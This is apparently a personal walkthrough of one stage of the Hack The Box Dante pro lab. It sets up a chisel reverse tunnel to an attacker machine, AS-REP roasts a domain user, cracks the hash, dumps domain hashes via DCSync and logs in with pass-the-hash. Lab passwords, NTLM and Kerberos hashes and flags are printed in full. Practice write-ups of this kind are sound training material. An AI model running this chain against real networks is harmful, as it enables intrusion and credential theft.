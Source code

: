 # Admin Subnet:

# Host 172.16.2.5:

I cannot figure out why I am unable to access the internal admin subnet using sshuttle. My command currently is:
```
proxychains sshuttle --dns -vr katwamba@172.16.1.20 172.16.2.0/24 --ssh-cmd "ssh -i /home/cl3al/Documents/priv_keys/id_rsa"
```

It fails stating that the path I specified for the key is not in the paths it seems to look for by default. Not sure why it does this.

SSH tunneling and SShuttle are used when SSH is available. Chisel is good for Windows and creates a tunnel from scratch where SSH may not be available. In order for me to finally be able to get an .exe file for chisel on Windows, I had to build it first with Go using the following command while in the "opt/chisel" directory:
```
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" .
```
Then:
```
#Run command on attacker machine (10.10.16.101)
./chisel server -p 8001 --reverse

#Run command on Win DC01 machine (172.16.1.20) after transferring the built chisel.exe file.
./chisel .exe client 10.10.16.101:8001 R:389:socks


```

Finally, I needed to add the new reverse proxy and the new open port to the etc/proxychains4.conf file. I figured out that the port the needed to be set in proxychains (below) and use for the remote connection above from the victim needed to be an open port. From there, I was then even able to run nmap locally on my kali machine by disabling the first proxy (commenting it out) and running **_proxychains_** before the command.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.53.png)
**_Reference: <https://ap3x.github.io/posts/pivoting-with-chisel/>_**

**_SOMETIMES, YOU MAY NEED TO TRY DIFFERENT FORWARDED PORT UNTIL IT WORKS. 389 GAME ME ISSUES AND I HAD TO TRY 3333_**

Next, I need to conduct AS\_REP Roasting using Rubeus.exe locally on DC01 (suggested unfortunately by a discord member providing me with more help than requested). I can use an impacket tool called **_GetNPUsers_** to accomplish this and get the ticket granting ticket (TGT) using a username.:
```
proxychains impacket-GetNPUsers dante/asmith -dc-ip=172.16.2.5

and then I need to enter local password to continue when prompted.
However, I will use the following command to automate this from a file with all usernames.:

proxychains impacket-GetNPUsers dante/-no-pass -usersfile /home/cl3al/Desktop/userfile.txt -dc-ip=172.16.2.5
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.52.png)
Nmap scan done locally as well:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.54.png)

After conducting an AS\_REP ROAST attack, I found the following TGT which can now be cracked with john!!:
```
$krb5asrep$23$jbercov@DANTE:2107e3f6021fb427d8109ae16152bd52$405302c64d77f77ae979ced680333f26c29d75bce5ec750220436dbb8648dd556236080d8b9b67e9334f5b9738ffaa70c566e0a54a1ca755ddb004a64492f7f87661473300a495f8cdf8e6466fbbf9f2521fe0f543026fbdbf27ab301d228f75c8189919b550a427988de7d3d8f135c6bef7115d62d75159fce25a8d31205b76771c52e37eac9ef7feff6af8c54259d9bcbe42fe0df9d826e09f28aa4805686f93ab96f029ae2df8a4c848a3c76978cd8fa79d9865e40f9627d10131774ee705f0f6ac8860f24c5132d0dea0a92cfec8dfb979c7afcbe7da983c83803db86a96bfd3e861
```

After using john to crack the above hash, I found the password for jbercov@dante:
```
username: dante\jbercov
password: myspace7
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.55.png)

Next, I ran bloodhound-python to gather all information for Active Directory and the zip file is stored in my root directory. The command I used once again was.:
```
proxychains bloodhound-python -d dante.admin -v --zip -c All -u jbercov -p myspace7 -ns 172.16.2.5 --dns-tcp
```

I now need to investigate this in Bloodhound to see what I can find next. In checking, bloodhound, I see that DCsync is available for me to use for jbercov to domain admin as shown below.:

![](./_resources/HTB_Pro_Lab_Dante.resources/image.57.png)
In searching for "dcsync" in msfconsole, I came across and used the following module which retrieved hashes.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.56.png)

Raw Data:
```
[*] Running for 172.16.2.5...
[-] 172.16.2.5 - RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] 172.16.2.5 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 172.16.2.5 - Using the DRSUAPI method to get NTDS.DIT secrets
[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8:::
[+] Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2e5f00bc433acee0ae72f622450bd63c:::
[+] DANTE.ADMIN\jbercov:1106:aad3b435b51404eeaad3b435b51404ee:2747def689b576780fe2339fd596688c:::
[+] DANTE-DC02$:1000:aad3b435b51404eeaad3b435b51404ee:ca139ee53927fb001c71aa2046260b45:::
[*] 172.16.2.5 - Kerberos keys grabbed
[+] Administrator:aes256-cts-hmac-sha1-96:0652a9eb0b8463a8ca287fc5d099076fbbd5f1d4bc0b94466ccbcc5c4a186095
[+] Administrator:aes128-cts-hmac-sha1-96:08f140624c46af979044dde5fff44cfd
[+] Administrator:des-cbc-md5:8ac752cea84f4a10
[+] krbtgt:aes256-cts-hmac-sha1-96:a696318416d7e5d58b1b5763f1a9b7f2aa23ca743ac3b16990e5069426d4bc46
[+] krbtgt:aes128-cts-hmac-sha1-96:783ecc93806090e2b21d88160905dc36
[+] krbtgt:des-cbc-md5:dcbff8a80b5b343e
[+] DANTE.ADMIN\jbercov:aes256-cts-hmac-sha1-96:5b4b2e67112ac898f13fc8b686c07a43655c5b88c9ba7e5b48b1383bc5b3a3b6
[+] DANTE.ADMIN\jbercov:aes128-cts-hmac-sha1-96:489ca03ed99b1cb73e7a28c242328d0d
[+] DANTE.ADMIN\jbercov:des-cbc-md5:c7e08938cb7f929d
[+] DANTE-DC02$:aes256-cts-hmac-sha1-96:7a7d7c0cc314fc7604749672d6e9d5feb709d765ac6e9985fffb5aaa223c5e15
[+] DANTE-DC02$:aes128-cts-hmac-sha1-96:8036c96874a8d29a122ea35c408cf660
[+] DANTE-DC02$:des-cbc-md5:a25d94f1df0b195e
```

Using evil-winrm, I was able to establish a connection to Jacob's account and found the next flag in the Desktop directory.:
```
proxychains evil-winrm -i 172.16.2.5 -u jbercov -H 2747def689b576780fe2339fd596688c  <----nthash (right one or last one from the above list)
```

I downloaded the flag.txt file as shown here.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.58.png)
flag:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.59.png)

```
DANTE{Im_too_hot_Im_K3rb3r045TinG!}
```

I then quickly found the second flag.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.60.png)

```
DANTE{DC_or_Marvel?}
```

I also found a note.txt file which contained the following tip regarding the previous discovery of the internal admin subnet.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.61.png)
Lastly, I inspected the Jenkins.bat file in the Documents directory for the Administrator which revealed the following.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.62.png)
Raw data:
```
Admin_129834765
SamsungOctober102030
```
